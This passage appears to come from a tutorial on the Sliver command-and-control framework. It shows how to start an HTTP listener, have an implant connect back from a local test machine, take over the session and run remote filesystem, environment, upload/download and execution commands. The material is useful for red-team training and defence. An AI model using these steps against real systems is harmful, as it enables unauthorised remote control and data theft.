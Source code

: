 In my case the local system is macOS, remember to adapt the `os` flag.`skip-symbols` will skip some of the obfuscation used during implant generation and `debug` display some additional information while the implant is running.

Next you will need to spin up a listener for our implant to be able to connect back to, sliver supports using mTLS, HTTP/S, DNS and WireGuard but for now we’re going to stick to HTTP.

```bash
[server] sliver > http
[] *Starting HTTP :80 listener ...*
[] Successfully started job #1
```

A HTTP listener is now running and if you want to verify which listeners are currently running you can use the `jobs` command:

```html
[server] sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    http   tcp        80
```

Finally run the implant in a separate window and watch it connect back to the sliver server.

```bash
[*] Session 1884a365 RELATED_EARDRUM - [::1]:49153 (test.local) - darwin/amd64
```

Now let’s select our implant and run our first command using the `use` command.

```bash
[server] sliver > use
? Select a session or beacon: 
SESSION  1884a365  RELATED_EARDRUM  [::1]:49153      test.local  tester  darwin/amd64
[*] Active session RELATED_EARDRUM (1884a365-085f-4506-b28e-80c481730fd0)

[server] sliver (RELATED_EARDRUM) > pwd

[*] /Users/tester/tools
```

Once you have reached this point, go ahead and explore some of the commands listed below. In each case first checkout the commands help using the **`-h`** flag then try it out!

Exploring and interacting with the filesystem

- ls / cd / pwd / mv / rm / cat / mkdir

Getting some environmental information

- ps / getuid / getpid / getprivs/ getgid / env

Uploading and downloading files

- upload / download

Execute a binary
